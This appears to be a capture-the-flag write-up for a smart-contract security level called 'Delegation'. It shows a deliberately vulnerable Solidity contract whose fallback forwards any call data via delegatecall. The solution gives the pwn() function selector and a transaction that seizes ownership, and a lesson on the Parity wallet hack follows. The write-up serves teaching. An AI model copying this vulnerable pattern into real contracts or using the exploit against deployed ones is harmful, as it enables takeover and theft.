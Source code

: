 # Delegation  
_difficulty 4/10_

The goal of this level is for you claim ownership of the instance you are given.  
Things that might help  
- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

## Sources
```javascript
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

## Level author  
Alejandro Santander  
palebluedot@gmail.com  
https://github.com/ajsantander  

## Solution

1. Calculate function `pwn()` signature  
`web3.sha3("pwn()").substring(0, 10)`  
"0xdd365b8b"

2. Invoke function to transfer ownership
```javascript
await contract.sendTransaction({
  from: player,
  data: "0xdd365b8b"
})
```

3. Check contract owner  
`player === await contract.owner()`  
true  

4. Submit Instance 🎉

## Lesson

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.  
Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.  

